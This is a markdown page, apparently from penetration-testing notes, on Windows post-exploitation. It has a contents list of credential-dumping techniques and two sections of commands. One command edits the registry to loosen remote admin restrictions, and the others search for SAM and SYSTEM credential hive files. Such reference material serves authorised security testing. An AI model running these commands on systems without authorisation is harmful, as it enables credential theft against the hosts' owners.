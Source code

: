 # Post-Exploitation

* [General](#General)
* [Find credentials in files](#Find-credentials-in-files)
* [Dumping LSASS](#Dumping-LSASS)
* [Dumping SAM](#Dumping-SAM)
* [Dumping ntds.dit](#Dumping-ntds.dit)
  * [Shadowcopy](#Shadowcopy)
* [Hashcat](#Hashcat)
* [Mimikatz](#Mimikatz)
* [Rubeus](#Rubeus)
  * [S4U2self](#S4U2self) 
* [Certipy](#Certipy)
* [Token manipulation](#Token-manipulation)
* [DPAPI](#DPAPI)
  * [Credential manager](#Credential-manager)
  * [Scheduled tasks](#Scheduled-tasks)
  * [Chrome](#Chrome)
* [KeePass](#KeePass)
* [Putty ppk file](#Putty-ppk-file)
* [Network Sniffing](#Network-Sniffing)
* [Virtual Machines](#Virtual-Machines)
* [Resetting a password remotely](#Resetting-a-password-remotely)
* [Active Directory Certificate Services](#Active-Directory-Certificate-Services)
  * [THEFT1 Windows store](#THEFT1-Windows-store)
  * [THEFT2 Get User Certificate DPAPI](#THEFT2-Get-User-Certificate-DPAPI)
  * [THEFT3 Machine Certificate DPAPI](#THEFT3-Machine-Certificate-DPAPI)
  * [THEFT4 Certificates on disk](#THEFT4-Certificates-on-disk)
    * [HashiCorp](#HashiCorp)
    * [NSS databases](#NSS-databases)
  * [THEFT5 Unpac the hash](#THEFT5-Unpac-the-hash)
  * [Encrypted File System](#Encrypted-File-System)


## General
- Run seatbelt from [Host Reconnaissance](Host-Reconnaissance.md)

#### Enable SMB shares for local admin users
```
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "LocalAccountTokenFilterPolicy" /t REG_DWORD /d 1 /f
Get-service LanmanServer | restart-service -verbose
```

## Find credentials in files
#### Look for SAM files
```
Get-ChildItem -path C:\Windows\Repair\* -include *.SAM*,*.SYSTEM* -force -Recurse 
Get-ChildItem -path C:\Windows\System32\config\RegBack\*  -include *.SAM*,*.SYSTEM* -force -Recurse
Get-ChildItem -path C:\* -include *.SAM*,*.SYSTEM* -force -Recurse 
```
